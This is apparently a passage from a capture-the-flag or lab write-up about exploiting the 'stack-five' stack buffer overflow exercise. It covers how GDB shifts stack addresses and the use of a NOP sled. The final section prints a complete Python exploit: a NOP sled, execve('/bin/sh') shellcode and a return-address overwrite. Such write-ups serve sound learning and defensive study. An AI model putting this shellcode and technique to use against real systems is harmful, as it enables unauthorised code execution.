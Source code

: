 Eventually, I realized that GDB’s environment and memory layout slightly shift things.

### Fix: Using a NOP Sled and Address Adjustment

I simply added 0x80 bytes worth of a NOP sled and jumped to an address 0x80 higher than `ebe0`, i.e., `0x7fffffffec60` — and it worked **outside** GDB.

This wasn't luck — it was trial and a lot of error.

> You need to spend some time guessing and debugging through it, check your ip and sp guess it add more padding increase or decrease your nops.

---

## Insight: Why Environment Affects Address

GDB, terminal size (`LINES`, `COLUMNS`), and other variables shift the stack. This causes the buffer address to vary slightly. To avoid this:

```bash
env -i ./stack-five < payload
```

This runs the binary in a clean environment. But even then, it might differ.

### Pro Tip:

Use a NOP sled and jump near the middle or end of the buffer.

## Attack:

Presenting you the devil itself:
``` pyth
import sys
import struct
addr = struct.pack("<Q", 0x7fffffffec60)  #its originally 0x7fffffffebe0 + 80
shellcode = 56 * b"\x90"
shellcode += (
    b"\x48\x31\xc0"
    b"\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"
    b"\x53"
    b"\x48\x89\xe7"
    b"\x48\x31\xf6"
    b"\x48\x31\xd2"
    b"\xb0\x3b"
    b"\x0f\x05"
)
length = 136 - len(shellcode)
sys.stdout.buffer.write(shellcode+length*b'A'+addr)
```

The offset + 80 is through lots of trial and error outside the gdb environment, the gdb environment may not let you run this payload w/o errors because its different in gdb there must be smth different going on in that address and heres its different.
